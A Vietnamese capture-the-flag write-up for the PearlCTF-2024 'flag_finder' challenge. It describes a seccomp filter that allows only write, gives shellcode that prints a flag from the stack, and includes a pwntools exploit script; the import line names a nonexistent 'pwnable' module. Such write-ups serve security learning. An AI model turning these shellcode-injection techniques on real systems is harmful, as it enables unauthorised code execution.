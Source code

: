 # [PearlCTF-2024] flag_finder
<p>Dòng 48, đọc tối đa 254 byte từ stdin vào vùng nhớ v15. Sau khi gọi sub_4012FD, chương trình thực thi nội dung tại địa chỉ v15.</p>

![alt text](/thanhlai/post/pwnable/image/post8/image.png)

<p>Hàm sub_4012FD thiết lập seccomp để hạn chế các system call được phép.</p>

![alt text](/thanhlai/post/pwnable/image/post8/image-1.png)

<p>Sử dụng công cụ seccomp-tools để kiểm tra các system call được phép sử dụng. Chương trình chỉ cho phép đúng một system call là write, tất cả syscall khác đều bị chặn (KILL).</p>

![alt text](/thanhlai/post/pwnable/image/post8/image-3.png)

<p>Khi nhập chuỗi "abcd", chương trình cố gắng thực thi nội dung tại địa chỉ v15. Do đây không phải shellcode hợp lệ, quá trình thực thi gây lỗi. Trong quá trình debug, quan sát thấy nội dung flag đã được lưu sẵn trên stack, bắt đầu tại địa chỉ rsp + 0x18.
Do chương trình chỉ cho phép syscall write, ta có thể viết shellcode đơn giản để đọc flag từ stack và in nó ra stdout.</p>

![alt text](/thanhlai/post/pwnable/image/post8/image-2.png)

```
    mov rax, 1          ; syscall write
    mov rdi, 1          ; stdout
    add rsp, 0x18       ; địa chỉ buffer 
    mov rsi, rsp        ; tham số 1 (địa chỉ chứa flag)
    mov rdx, 32         ; độ dài (giả sử: 32 byte)
    syscall
```

<p>Script exploit:</p>

```
from pwnable import *

p = process('./flag-finder')  

shellcode = asm(
	'''
	mov rax, 1        
    mov rdi, 1         
    add rsp, 0x18       
    mov rsi, rsp        
    mov rdx, 32        
    syscall
	''', arch = 'amd64'
)

p.sendlineafter(b'> ', shellcode)

p.interactive()
```

<p>Chạy script và lấy được flag thành công.</p>

![alt text](/thanhlai/post/pwnable/image/post8/image-4.png)